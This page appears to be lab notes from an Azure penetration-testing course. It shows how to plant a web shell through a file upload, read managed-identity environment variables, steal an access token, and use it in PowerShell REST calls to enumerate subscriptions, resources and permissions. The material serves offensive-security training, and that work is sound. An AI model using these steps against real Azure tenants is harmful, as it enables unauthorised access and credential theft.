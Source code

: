 # Abusing Identity Endpoint

We can upload .phtml files using the file upload functionality. Use the studentxshell.phtml from the Tools directory on your student VM (which is a super simple web shell)

After uploading the web shell, access it and pass the 'env' command to check if a managed identity is assigned to the app service. Look for environment variables IDENTITY\_HEADER and IDENTITY\_ENDPOINT in the output of https://defcorphqcareer.azurewebsites.net/uploads/studentxshell.phtml?cmd=env

<figure><img src="https://g37sys73m.gitbook.io/~gitbook/image?url=https%3A%2F%2F1846927083-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-Mj9GKP_mf1AnaApJEIA%252Fuploads%252FEJkXJLxHKT2wqmsGYFMF%252Fimage.png%3Falt%3Dmedia%26token%3Dd5858b72-a31f-4eb6-8959-dc79b78b73e4&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=8781f8a1&#x26;sv=2" alt=""><figcaption></figcaption></figure>

We can use a simple curl command to get the access token using the IDENTITY\_ENDPOINT AND IDENTITY\_HEADER. Let's upload another webshell studentxtoken.phtml for that. Access it by browsing to https://defcorphqcareer.azurewebsites.net/uploads/studentxtoken.phtml:

<figure><img src="https://g37sys73m.gitbook.io/~gitbook/image?url=https%3A%2F%2F1846927083-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-Mj9GKP_mf1AnaApJEIA%252Fuploads%252Fy9coyD81q3uXhbq508QL%252Fimage.png%3Falt%3Dmedia%26token%3Db1ac9f9d-3ff8-4be7-acac-0a8b5883a497&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=d187868c&#x26;sv=2" alt=""><figcaption></figcaption></figure>

We can use the access token and client ID from above with Az PowerShell. But Az PowerShell’s Get-AzRoleAssignment would not show us the permissions for the current token. It would show role assignments only to ObjectIDs (no way to get the ObjectID of the Manged Identity token that we have).

<figure><img src="https://g37sys73m.gitbook.io/~gitbook/image?url=https%3A%2F%2F1846927083-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-Mj9GKP_mf1AnaApJEIA%252Fuploads%252FGwwgkXFIsvNsx4cxwPow%252Fimage.png%3Falt%3Dmedia%26token%3Dc94a7332-0cd4-4c96-af43-b4042f57d4ad&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=ad89f9dc&#x26;sv=2" alt=""><figcaption></figcaption></figure>

To resolve Object IDs to SignInName, we could request MS Graph tokens. While we can request both the tokes, for now, let's fall back to manual API calls for enumeration. Let's use the token with Azure REST API. We would need the subscription ID, use the code below to request it:

```powershell
$Token =  'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 
```

List all resources accessible for the managed identity assigned to the app service. Note that the only difference is the URI

```powershell
$Token =  'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 
```

Let's see what actions are allowed using the below code:

```powershell
$Token =  'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/providers/Microsoft.Authorization/permissions?api-version=2015-07-01'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value
```
